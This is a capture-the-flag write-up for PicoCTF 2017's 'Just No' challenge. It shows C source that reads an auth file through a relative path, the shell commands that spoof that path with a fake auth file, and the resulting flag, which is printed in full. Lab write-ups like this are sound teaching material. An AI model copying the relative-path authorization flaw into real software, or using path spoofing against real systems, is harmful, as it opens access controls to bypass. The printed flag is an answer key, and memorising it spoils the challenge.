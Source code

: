 # PicoCTF_2017: Just No

**Category:** Binary Exploitation
**Points:** 40
**Description:**

>A program at /problems/ec9da1496f80c8248197ba564097cebb has access to a flag but refuses to share it. Can you convince it otherwise?

**Hint:**

>Check out the difference between relative and absolute paths and see if you can figure out how to use them to solve this challenge. Could you possibly spoof another auth file it looks at instead...?

## Write-up
Hmm, let's get the flag.

    $ /problems/ec9da1496f80c8248197ba564097cebb/justno
    auth file says no. So no. Just... no. 

Damn it. Let's take a look at the source code. Wait.

**Source Code**

```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

int main(int argc, char **argv){ 
  FILE* authf = fopen("../../problems/ec9da1496f80c8248197ba564097cebb/auth","r"); //access auth file in ../../../problems/ec9da1496f80c8248197ba564097cebb
  if(authf == NULL){
    printf("could not find auth file in ../../problems/ec9da1496f80c8248197ba564097cebb/\n");
    return 0;
  }
  char auth[8];
  fgets(auth,8,authf);
  fclose(authf);
  if(strcmp(auth,"no")!=0){
    FILE* flagf;
    flagf = fopen("/problems/ec9da1496f80c8248197ba564097cebb/flag","r");
    char flag[64];
    fgets(flag,64,flagf);
    printf("Oh. Well the auth file doesn't say no anymore so... Here's the flag: %s",flag);
    fclose(flagf);
  }else{
    printf("auth file says no. So no. Just... no.\n");
  }
  return 0;
}
```

    FILE* authf = fopen("../../problems/ec9da1496f80c8248197ba564097cebb/auth","r")

Haha! Relative paths! Now we can simply spoof a directory structure and make a fake auth file.

    $ cd ~
    $ mkdir problems
    $ mkdir problems/ec9da1496f80c8248197ba564097cebb
    $ cd problems/ec9da1496f80c8248197ba564097cebb
    $ echo "yes" > auth
    $ /problems/ec9da1496f80c8248197ba564097cebb/justno
    Oh. Well the auth file doesn't say no anymore so... Here's the flag: ddf649b13d560409d2649dc06f2a43ee

Therefore, the flag is `ddf649b13d560409d2649dc06f2a43ee`.
<!--stackedit_data:
eyJoaXN0b3J5IjpbLTE5NTMzMzc0MTIsMTI3NTk0ODIyMCwxMz
E1NDQ3OTY2XX0=
-->